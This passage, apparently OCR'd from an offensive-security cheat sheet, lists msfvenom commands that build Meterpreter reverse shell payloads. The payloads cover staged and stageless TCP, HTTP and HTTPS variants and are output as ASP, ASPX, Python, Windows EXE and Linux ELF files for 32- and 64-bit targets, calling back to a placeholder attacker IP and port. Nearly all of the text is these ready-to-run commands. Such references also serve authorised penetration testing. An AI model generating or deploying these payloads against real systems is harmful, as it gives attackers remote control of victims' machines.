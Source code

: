 2. **ASP**

- **x86 (32-bit) Payloads**

`$ msfvenom -p windows/meterpreter/reverse_tcp lhost=<IP> lport=<PORT> -f asp -o met-x86.asp`

- **x86-64 (64-bit) Payloads**

`$ msfvenom -p windows/x64/meterpreter/reverse_tcp lhost=<IP> lport=<PORT> -f asp -o met-x64.asp`

3. ASPX

- **x86 (32-bit) Payloads**

`$ msfvenom -p windows/meterpreter/reverse_tcp lhost=<IP> lport=<PORT> -f aspx -o met-x86.aspx`

- **x86-64 (64-bit) Payloads**

`$ msfvenom -p windows/x64/meterpreter/reverse_tcp lhost=<IP> lport=<PORT> -f aspx -o met-x64.aspx`

##### 2.6.1.5 - Stageless Python Meterpreter Reverse Shells

`$ msfvenom -p python/meterpreter_reverse_http lhost=<IP> lport=<PORT> -o met.py`

`$ msfvenom -p python/meterpreter_reverse_https handlersslcert=<FILE.pem> sslversion=[Auto | TLS | SSL23 | SSL3 | TLS1 | TLS1.1 | TLS1.2] lhost=<IP> lport=<PORT> -o met.py`

##### 2.6.1.6 - Stageless Windows Meterpreter Reverse Shells

1. **x86 (32-bit) Payloads**

`$ msfvenom -p windows/meterpreter_reverse_tcp lhost=<IP> lport=<PORT> -f exe -o met-x86.exe`

`$ msfvenom -p windows/meterpreter_reverse_http lhost=<IP> lport=<PORT> -f exe -o met-x86.exe`

`$ msfvenom -p windows/meterpreter_reverse_https handlersslcert=<FILE.pem> sslversion=[Auto | TLS | SSL23 | SSL3 | TLS1 | TLS1.1 | TLS1.2] lhost=<IP> lport=<PORT> -f exe -o met-x86.exe`

2. **x86-64 (64-bit) Payloads**

`$ msfvenom -p windows/x64/meterpreter_reverse_tcp lhost=<IP> lport=<PORT> -f exe -o met-x86-64.exe`

`$ msfvenom -p windows/x64/meterpreter_reverse_http lhost=<IP> lport=<PORT> -f exe -o met-x86-64.exe`

`$ msfvenom -p windows/x64/meterpreter_reverse_https handlersslcert=<FILE.pem> sslversion=[Auto | TLS | SSL23 | SSL3 | TLS1 | TLS1.1 | TLS1.2] lhost=<IP> lport=<PORT> -f exe -o met-x64.exe`

##### 2.6.1.7 - Stageless Linux Meterpreter Reverse Shells

1. **x86 (32-bit) Payloads**

`$ msfvenom -p linux/x86/meterpreter_reverse_http lhost=<IP> lport=<PORT> -f elf -o met-x86`

`$ msfvenom -p linux/x86/meterpreter_reverse_https handlersslcert=<FILE.pem> sslversion=[Auto | TLS | SSL23 | SSL3 | TLS1 | TLS1.1 | TLS1.2] lhost=<IP> lport=<PORT> -f elf -o met-x86`

2. **x86-64 (64-bit) Payloads**

`$ msfvenom -p linux/x64/meterpreter_reverse_http lhost=<IP> lport=<PORT> -f elf -o met-x64`
